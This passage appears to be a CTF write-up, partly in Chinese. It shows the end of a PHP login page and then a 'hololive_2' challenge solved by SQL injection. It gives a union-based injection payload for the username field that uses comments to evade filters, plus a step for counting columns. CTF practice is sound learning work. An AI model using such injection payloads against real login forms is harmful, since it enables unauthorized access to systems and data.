 ```php
                </p>
        </div>
    <?php
    } else {
        if ($loginStatus === False) {
            echo '<div class="alert alert-danger" role="alert">Login Failed! Only admin can use this page to login!</div>';
        }
    ?>
        <div class="text-center d-flex align-items-center" style="height: 90%">
            <form class="form-signin" action="login.php" method="POST">
                <img class="mb-4" src="img/dum.png" width=300></img>
                <label for="inputUsername" class="sr-only">Username</label>
                <input type="text" id="inputUsername" class="form-control" placeholder="Username" name="ctf_username" required autofocus>
                <label for="inputPassword" class="sr-only">Password</label>
                <input type="text" id="inputPassword" class="form-control" placeholder="Password" name="ctf_password" required>
                <div class="checkbox mb-3">
                    <label>
                        <input type="checkbox" value="remember-me"> Remember me
                    </label>
                </div>
                <button class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
            </form>
        </div>
    <?php
    }
    ?>
    <script src="js/jquery-slim.min.js"></script>
    <script src="js/popper.min.js"></script>
    <script src="js/bootstrap.min.js"></script>
</body>

</html>
```

## hololive_2
key concept : <font color=blue>SQL injection</font> 

[題目是login.php](http://ctf.adl.tw:12004/login.php)

```
username = '/*union*/union/*select*/select+'gura','gura','gura' -- 

password = gura
```
1. 測試有幾個欄位 : 兩個欄位，出現錯誤，測試到對為止。
    ```
    username = '/*union*/union/*select*/select+'gura','gura' --
    password = gura
    ```
    